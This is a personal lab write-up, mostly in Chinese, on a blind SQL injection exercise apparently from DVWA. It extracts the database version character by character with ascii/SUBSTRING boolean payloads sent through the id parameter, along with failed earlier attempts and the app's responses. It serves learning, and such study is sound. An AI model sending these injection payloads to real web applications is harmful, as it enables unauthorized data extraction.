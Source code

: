 # SQL Injection (Blind)


> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ffffd1c6-c73a-4723-9dba-eda574016665/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T162046Z&X-Amz-Expires=86400&X-Amz-Signature=996d44a6b6eb9f6ff039d065ca28e6c15f2dae3bc3edbef07c9a1fb524da51da&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

# Update - February 21, 2022

```sql
SELECT 1, (SELECT (version())) <> 0;
```

```sql
id=1 AND (SELECT version() <> 0); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = 5.7); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = '5.7.34'); &Submit=Submit
# User ID is MISSING in the database
```

也是無法完整猜測

### Done

因此參考別人的 writeup 後才知道可以用 `ascii` 將字串轉換成數字，這樣就可以不用擔心單引號被過濾了，基本上這邊只要能轉換成數字型態就可以了

```sql
SELECT SUBSTRING((SELECT @@version),1,6)
# 5.7.34
```

5

```sql
SELECT 1=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53); &Submit=Submit
# User ID is MISSING in the database
```

SUBSTRING((SELECT @@version),2,1) 代表第2個字串的值

```sql
select SUBSTRING((SELECT @@version),2,1);
# .
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),2,1)) = 46); &Submit=Submit
# User ID exists in the database
```

7

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),3,1)) = 55); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 46); &Submit=Submit
# User ID exists in the database
```

3

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),5,1)) = 51); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 46); &Submit=Submit
# User ID is MISSING in the database
```

4

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 52); &Submit=Submit
# User ID exists in the database
```

從上面嘗試的結果就可以推敲出版本

```
5.7.34
```
